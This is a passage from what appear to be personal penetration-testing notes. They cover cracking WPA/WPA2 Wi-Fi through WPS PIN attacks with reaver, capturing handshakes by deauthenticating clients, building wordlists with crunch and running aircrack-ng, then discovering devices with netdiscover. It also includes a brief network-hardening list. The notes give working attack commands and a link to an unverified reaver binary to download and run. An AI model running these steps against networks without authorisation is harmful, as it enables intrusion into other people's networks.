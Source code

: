 > may want to leave all 3 running at once

### Cracking WPA/WPA2

For cracking WPA or WPA2, look out for WPS, this will enable the hack to much simpler as WPS is an 8 digit pin. Otherwise same attack as [WEP](#cracking-wep), but will take longer as WPA/WPA2 were designed to solve WEP's problems, thus more secure.

> WPS is only available if the router supports WPS (and not PBS(push button authentication))

#### With WPS

1. to find all networks with WPS enabled use `wash --interface [WirelessAdapter]`
2. to attack a network with WPS:
    1. run fake auth on the router `aireplay-ng --fakeauth [number of times (0 for 1 time)] -D -a [TargetMAC] -h [YOUR_WirelessAdapter_MAC] [WirelessAdapter (wlan0) ]` + leave airodump-ng in background (see WEP step 1)
    2. use reaver `reaver --bssid [targetMAC] --channel [channel] --interface [WirelessAdapter] -vvv --no-associate`
        > if reaver doesn't work use this version of reaver <https://ufile.io/lro4nkdv> make sure you run `chmod +x reaver` then `./reaver [your command here]`

#### Without WPS

1. monitor and write to a file
2. deauthenticate a client to capture handshake
3. create a word list:
    1. Download a word list off the internet or:
        - Crunch can be used to create a word list using `crunch [min] [max] [characters] -t [pattern] -o [filename]`
    2. Need handshake + word list to crack WPA
    3. to begin cracking the password use `aircrack-ng [.cap file] -w [wordlist]`
        - methods to speedup
            1. use online services with handshake & word list
            2. use GPU for cracking
            3. use rainbow tables
            4. pipe word list as it is being created

### Securing your Network

- Ensure WPA2 is used with a long, complex password with letters, special characters and numbers
- Change the password to the router login (typically admin, admin)
- Disable WPS
- Specify exact MAC addresses to connect (visitors won't like this)

### Post Connection Attacks (MITM Attacks)

#### Discovering Devices on the Network

Need to gather information (MAC, IP etc.), there are programs that do for you = NetDiscover, Nmap.

##### NetDiscover

- to use NetDiscover `netdiscover -r [ip_range (can only access IPs on the same subnet eg. 10.0.2.xx ends at 254 so eg. 10.0.2.1/24 /24 means all IPs]`
- use your ip address with the last .xx being .1
- if using wireless card use `-i [wirelessCard]` before `-r` or just connect to the network.
- if not finding anything try (interface only if using Wi-Fi, MUST BE IN MANAGED/AUTO MODE)
    - `netdiscover -i <interface> <gateway IP/8>`
    - `netdiscover -i <interface> <gateway IP/16>`
    - `netdiscover -i <interface> <gateway IP/24>`
- To make sure of the gateway IP address, please route -n

